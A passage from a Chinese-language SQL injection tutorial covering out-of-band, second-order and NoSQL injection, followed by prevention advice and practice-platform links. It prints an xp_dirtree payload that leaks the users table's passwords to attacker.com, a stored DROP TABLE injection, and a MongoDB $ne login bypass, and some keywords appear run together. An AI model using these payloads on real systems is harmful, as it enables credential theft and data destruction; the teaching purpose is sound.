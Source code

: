 8.带外（OAST）SQL注入  
  
当数据和错误反馈均未暴露时，触发外部回调：  
  

```
?id=1'; EXEC master..xp_dirtree '\\attacker.com\\'+(SELECTpasswordFROMusers)+'\\share'--
```

  
  
此有效载荷指示数据库服务器对攻击者的域执行网络调用，并将密码嵌入到路径中。我们之所以选择该xp_dirtree函数，是因为它能够在 MSSQL 环境中可靠地进行 DNS 解析。  
  
9. 不同上下文中的 SQL 注入  
  
二阶 SQLi：存储在应用程序中的有效负载（例如，注释、配置文件）稍后在新的 SQL 上下文中使用该数据时执行：  
  

```
-- Initial storage:
INSERTINTO posts (content) VALUES ('Great post'); DROPTABLE comments; --
-- Later, when viewing posts, the DROP TABLE executes.
```

  
  
我们使用这个例子来说明注入如何隐藏在良性输入中并在稍后触发，从而绕过初始清理。  
  
NoSQL 环境：如果用户输入直接嵌入 JSON 查询中，像 MongoDB 这样的文档数据库也会出现类似的缺陷：  
  

```
{ &#34;username&#34;: userInput, &#34;password&#34;: passInput }
```

  
  
注入{ "$ne": null }会绕过这两个字段。此有效载荷利用了 NoSQL 上下文中的类型强制和查询结构。  
  
10. 防止 SQL 注入  
1. 参数化查询/准备好的语句：绑定变量而不是连接字符串。  
  
1. ORM 和查询构建器：依靠自动转义输入的内置方法。  
  
1. 严格输入验证：对 ID 使用允许列表，对电子邮件强制使用正则表达式等。  
  
1. 最小权限：将数据库用户权限限制为仅执行必要的操作。  
  
1. 错误处理：抑制生产中的详细错误；内部记录详细信息。  
  
1. 定期测试：将自动扫描仪与手动渗透测试相结合。  
  
永远不要相信用户输入——始终将其视为数据，而不是代码。  
  
  
11. 其他资源和备忘单  
  
实践平台  
- PortSwigger Web Security Academy: https://portswigger.net/web-security  
  
- DVWA: http://www.dvwa.co.uk/  
  
- OWASP Juice Shop: https://owasp.org/www-project-juice-shop/  
  
- Hack The Box: https://www.hackthebox.com/  
  
- TryHackMe: https://tryhackme.com/  
  